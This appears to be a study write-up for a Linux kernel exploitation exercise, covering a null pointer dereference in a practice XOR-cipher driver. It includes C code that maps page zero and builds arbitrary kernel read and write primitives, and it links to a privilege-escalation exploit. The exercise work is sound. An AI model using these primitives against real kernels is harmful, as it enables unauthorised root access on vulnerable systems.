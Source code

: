 # Null Pointer Dereference

Practice from [1].

[1] https://pawnyable.cafe/linux-kernel/LK02/null_ptr_deref.html


## mmap_min_addr

*mmap_min_addr* limits the lowest address that can be mapped from userland. It
is a non-zero value by default, but is set to 0 in our target.

~~~sh
/ $ cat /proc/sys/vm/mmap_min_addr
0
~~~

> NOTE: This chapter attacks work only when SMAP and *mmap_min_addr* security
> mechanims are not present.

## struct file

File descriptors are used when manipulating drivers from user space, but
they are received as `struct file` on the kernel side.

The *file* structure has file-specific information, such as the cursor
position. It has a member that kernel modules are free to use:
`private_data`.

~~~c
File: include/linux/fs.h

struct file {
        union {
                struct llist_node       fu_llist;
                struct rcu_head         fu_rcuhead;
        } f_u;
        struct path             f_path;
        struct inode            *f_inode;       /* cached value */
        const struct file_operations    *f_op;

        /*
         * Protects f_ep_links, f_flags.
         * Must not be taken from IRQ context.
         */
        spinlock_t              f_lock;
        enum rw_hint            f_write_hint;
        atomic_long_t           f_count;
        unsigned int            f_flags;
        fmode_t                 f_mode;
        struct mutex            f_pos_lock;
        loff_t                  f_pos;
        struct fown_struct      f_owner;
        const struct cred       *f_cred;
        struct file_ra_state    f_ra;

        u64                     f_version;
#ifdef CONFIG_SECURITY
        void                    *f_security;
#endif
        /* needed for tty driver, and maybe others */
        void                    *private_data;

#ifdef CONFIG_EPOLL
        /* Used by fs/eventpoll.c to link all the hooks to this file */
        struct list_head        f_ep_links;
        struct list_head        f_tfile_llink;
#endif /* #ifdef CONFIG_EPOLL */
        struct address_space    *f_mapping;
        errseq_t                f_wb_err;
} __randomize_layout
~~~

> NOTE: If data was stored there in LK01 modules, there would be no conflicts.

## Vulnerability

`xor()` accesses `ctx` without checking it is not NULL, neither does its caller `module_ioctl()`:

~~~c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;

  ctx = (XorCipher*)filp->private_data;

  switch (cmd) {
...
    case CMD_ENCRYPT:
    case CMD_DECRYPT:
      return xor(ctx);
...
~~~

Find test program and crashdump in:
- [src/01.angus-test/angus-test.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/01.angus-test/angus-test.c)
- [src/01.angus-test/crashdump](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/01.angus-test/crashdump)

## Exploitation

Normally, when the first argument of the `mmap(2)` function is 0 (NULL), the
kernel chooses the (page-aligned) address at which to create the mapping. Flag
`MAP_FIXED`, however, tells the kernel to place the mapping at exactly that
address.

~~~c
  if (mmap(0, 0x1000, PROT_READ|PROT_WRITE,
           MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE|MAP_POPULATE,
           -1, 0) != NULL)
    fatal("mmap");
~~~

> NOTE: This will fail when `mmap_min_addr` has a higher value
> ~~~sh
> $ cat /proc/sys/vm/mmap_min_addr
> 65536
> ~~~

### Address-Arbitrary-Read

Uses ioctl command `CMD_GETDATA`, when the `filp->private_data` has not been previously
initialized -- `CMD_INIT` not called -- and therefore has NULL value, as it is the value it
assigned by `module_open()`. Since we control the contents at NULL address, we
can determine the source address (`ctx->data`) the ioctl will read from.

~~~c
static int module_open(struct inode *inode, struct file *filp) {
  filp->private_data = NULL;
  return 0;
}
~~~

~~~c
static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;

  ctx = (XorCipher*)filp->private_data;

  switch (cmd) {
...
    case CMD_GETDATA:
      if (!ctx->data) return -EINVAL;
      if (!req.ptr || req.len > ctx->datalen) return -EINVAL;
      if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
      break;
...
}
~~~

AAR implementation:

~~~c
File: angus-aar.c

// Reads into `dst`, `len` bytes from address pointed by `src`
void AAR(char *dst, char *src, size_t len) {
  // Point the `data` member of XorCipher at address 0, to the `src` address.
  nullptr->data = src;
  nullptr->datalen = len;
  // Read the string pointed by the `data` pointer at address Null + 8, using
  // the ioctl
  angus_getdata(dst, len);
}
~~~

### Address-Arbitrary-Write

Uses the `xor()` function -- and its reverse operation properties --, to write
the data at the address pointed by `ctx->data`, where `ctx` is NULL and
controlled by the attacker.

~~~c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}
~~~

`ctx->data` is the address we want to write to, which we cannot modify from
userspace. What we can do is read its content before the xor operation -- by
using the previously define AAR --, that we will use to xor in our exploit with
the value we pretend to write. The result of the xor will be used as the key
(`ctx->key`) which the attacker controls. The AAW implementation is as follows:

~~~c
File: angus-aar.c

// Writes to `dst` whatever content is pointed by `src` with length `len`.
void AAW(char *dst, char *src, size_t len) {
  // Since AAW is performed with xor, read the original data first
  char *tmp = (char*)malloc(len);
  if (tmp == NULL) fatal("malloc");
  AAR(tmp, dst, len);

  // Adjust so that it becomes the data you want to write by xor
  for (size_t i = 0; i < len; i++)
    tmp[i] ^= src[i];

  // Write
  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;
  angus_encrypt();

  free(tmp);
}
~~~

- AAR/AAW test in [src/02.angus-aar/angus-aar.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/02.angus-aar/angus-aar.c)
- Exploit that escalates privileges by modifying *struct cred* in [src/03.angus-exploit/angus-exploit.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/03.angus-exploit/angus-exploit)
